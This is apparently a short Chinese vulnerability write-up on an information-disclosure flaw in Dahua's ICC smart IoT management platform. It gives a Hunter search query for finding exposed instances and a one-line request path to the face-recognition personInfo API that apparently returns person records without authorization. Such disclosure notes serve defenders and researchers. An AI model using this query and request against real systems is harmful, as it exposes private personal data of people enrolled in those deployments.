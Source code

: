 # 大华智能物联综合管理平台(ICC)page存在信息泄露

# 一、漏洞简介
浙江大华技术股份有限公司，是全球领先的以视频为核心的智慧物联解决方案提供商和运营服务商，大华智能物联综合管理平台(ICC)page存在信息泄露。

# 二、影响版本
+ 大华智能物联综合管理平台(ICC)

# 三、资产测绘
+ hunter`web.body="*客户端会小于800*"`
+ 特征

![1698336070869-d2bec4ae-041a-43a9-981b-f3b9dad9c004.png](./img/yk3Nv7TC8vo6v7Lu/1698336070869-d2bec4ae-041a-43a9-981b-f3b9dad9c004-151161.png)

# 四、漏洞复现
```plain
/evo-apigw/evo-face/personInfo/page?pageSize=10
```

![1700140396421-a6bee011-dc48-4d41-876b-a7f0f649c78e.png](./img/yk3Nv7TC8vo6v7Lu/1700140396421-a6bee011-dc48-4d41-876b-a7f0f649c78e-456265.png)



> 更新: 2024-02-29 23:57:19  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/rnq80hcwo0wrk26s>